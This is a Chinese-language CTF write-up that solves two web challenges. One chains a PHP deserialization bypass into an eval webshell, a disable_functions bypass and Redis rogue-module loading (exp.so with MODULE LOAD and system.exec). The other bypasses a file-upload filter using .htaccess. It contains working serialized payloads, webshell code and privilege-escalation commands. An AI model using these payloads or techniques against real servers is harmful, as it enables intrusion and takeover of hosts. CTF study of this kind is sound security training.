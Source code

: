 ```yaml
---
title: redisRCE&&disable_function绕过
date: '2024-06-12 19:49'
categories: CTF
tags: RCE
cover: 'https://gitee.com/eviden/img/raw/master/33591dfae30e46459108dc785e1217a9.png'
description: RedisRCE
abbrlink: 6d4a3223
---
```


> [天翼杯 2021esay_eval | NSSCTF](https://www.nssctf.cn/problem/364)

```php
#开题源码
<?php
class A{
    public $code = "";
    function __call($method,$args){
        eval($this->code);
        
    }
    function __wakeup(){
        $this->code = "";
    }
}

class B{
    function __destruct(){
        echo $this->a->a();
    }
}
if(isset($_REQUEST['poc'])){
    preg_match_all('/"[BA]":(.*?):/s',$_REQUEST['poc'],$ret);
    if (isset($ret[1])) {
        foreach ($ret[1] as $i) {
            if(intval($i)!==1){
                exit("you want to bypass wakeup ? no !");
            }
        }
        unserialize($_REQUEST['poc']);    
    }


}else{
    highlight_file(__FILE__);
}
```

`so easy` 的一个反序列化,要注意一个点,利用`php对类名大小写不敏感`的特性去绕过题目中的正则表达式，在构造payload的时候，将类名换为`a`,`b`；

```php
<?php
class a{

    public $code = "";
    function __construct(){
//$this->code="phpinfo();";
    $this->code="eval(\$_GET['pass']);";//写个🐎进去
}

}
class b{
    function __construct(){
        $this->a=new a();
    }
}
echo serialize(new b());
# 最后改一下b类属性的数量,让其不为1,触发wakeup魔术方法
//O:1:"b":2:{s:1:"a";O:1:"a":1:{s:4:"code";s:10:"phpinfo();";}}

O:1:"b":2:{s:1:"a";O:1:"a":1:{s:4:"code";s:21:"eval($_POST['pass']);";}}
```

然后就是一键连接了.得到如下东西

![image-20240612201646430](https://gitee.com/eviden/img/raw/master/image-20240612201646430.png)

![image-20240612201703826](https://gitee.com/eviden/img/raw/master/image-20240612201703826.png)

刚准备查看上一级目录,提示权限不够呗

法一:直接暴力绕过disable_function,Antsword要利用插件,哥斯拉好像自带这个插件

![image-20240612202925716](https://gitee.com/eviden/img/raw/master/image-20240612202925716.png)

直接一把梭

![image-20240612203043549](https://gitee.com/eviden/img/raw/master/image-20240612203043549.png)

2.不用外挂,自己慢慢搞,然后看一下之前那个目录的文件,发现swp备份文件里面写着redis数据库的账号密码.拿去复原一下

这里是`vim缓存泄露`：

> 在开发人员使用 vim 编辑器 编辑文本时，系统会自动生成一个备份文件，当编辑完成后，保存时，原文件会更新，备份文件会被自动删除。
>
> 但是，当编辑操作意外终止时，这个备份文件就会保留，如果多次编辑文件都意外退出，备份文件并不会覆盖，而是以 swp、swo、swn 等其他格式，依次备份。

利用命令`vim -r xxxx.php.swp`恢复原配置文件

![image-20240612203444240](https://gitee.com/eviden/img/raw/master/image-20240612203444240.png)

得到如下:

```php
<?php

define("DB_HOST","localhost");
define("DB_USERNAME","root");
define("DB_PASSWOrd","");
define("DB_DATABASE","test");

define("REDIS_PASS","you_cannot_guess_it");
```

这里要下载`exp.so`文件，并进行利用，简单解释一下`exp.so`文件

> Redis 中的 `exp.so` 文件通常被用作 Redis 提权的一种方式。这个文件是一个 Redis 模块，它可以在 Redis 服务器中执行任意代码。
>
> Redis 模块是一种可插拔的扩展，它允许用户在 Redis 服务器中添加新的功能。`exp.so` 文件是一个 Redis 模块，它提供了一些命令和功能，可以让攻击者在 Redis 服务器中执行任意代码，从而获得服务器的控制权。
>
> 在 Redis 提权攻击中，攻击者通常会利用 Redis 的漏洞或者弱密码，获取 Redis 服务器的访问权限。一旦攻击者获得了访问权限，他们就可以上传 `exp.so` 文件到 Redis 服务器中，并使用 Redis 的 `module load` 命令加载这个文件。这个文件会在 Redis 服务器中执行任意代码，从而让攻击者获得服务器的控制权。

exp.so文件地址下载：https://github.com/Dliv3/redis-rogue-server

上传exp.so进行redis提权

然后利用蚁剑redis插件进行提权

![image-20240612204150887](https://gitee.com/eviden/img/raw/master/image-20240612204150887.png)

前面介绍过，我们要利用`module load` 命令加载这个文件，然后才能进行RCE，所以在虚拟命令行输入`MODULE LOAD /var/www/html/exp.so`

然后我们就可以进行命令执行了

```bash
system.exec "ls /"
system.exec "cat /flagaasdbjanssctf"
```

![image-20240612204403106](https://gitee.com/eviden/img/raw/master/image-20240612204403106.png)

> [BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#[GXYCTF2019]BabySQli)

这个题文件考的是上传漏洞,但是你深挖一下发现它里面还有些东西的,连上后门无法执行命令.

题目后端源码:

```php
<?php
session_start();
echo "<meta http-equiv=\"Content-Type\" content=\"text/html; charset=utf-8\" /> 
<title>Upload</title>
<form action=\"\" method=\"post\" enctype=\"multipart/form-data\">
上传文件<input type=\"file\" name=\"uploaded\" />
<input type=\"submit\" name=\"submit\" value=\"上传\" />
</form>";
error_reporting(0);
if(!isset($_SESSION['user'])){
    $_SESSION['user'] = md5((string)time() . (string)rand(100, 1000));
}
if(isset($_FILES['uploaded'])) {
    $target_path  = getcwd() . "/upload/" . md5($_SESSION['user']);
    $t_path = $target_path . "/" . basename($_FILES['uploaded']['name']);
    $uploaded_name = $_FILES['uploaded']['name'];
    $uploaded_ext  = substr($uploaded_name, strrpos($uploaded_name,'.') + 1);
    $uploaded_size = $_FILES['uploaded']['size'];
    $uploaded_tmp  = $_FILES['uploaded']['tmp_name'];
 
    if(preg_match("/ph/i", strtolower($uploaded_ext))){
        die("后缀名不能有ph！");
    }
    else{
        if ((($_FILES["uploaded"]["type"] == "
            ") || ($_FILES["uploaded"]["type"] == "image/jpeg") || ($_FILES["uploaded"]["type"] == "image/pjpeg")) && ($_FILES["uploaded"]["size"] < 2048)){
            $content = file_get_contents($uploaded_tmp);
            if(preg_match("/\<\?/i", $content)){
                die("诶，别蒙我啊，这标志明显还是php啊");
            }
            else{
                mkdir(iconv("UTF-8", "GBK", $target_path), 0777, true);
                move_uploaded_file($uploaded_tmp, $t_path);
                echo "{$t_path} succesfully uploaded!";
            }
        }
        else{
            die("上传类型也太露骨了吧！");
        }
    }
}
?>
```

上传`.htaccess`以及jpg文件绕过所有的waf.

然后利用哥斯拉bypass disable_function

![image-20240613000011010](https://gitee.com/eviden/img/raw/master/image-20240613000011010.png)

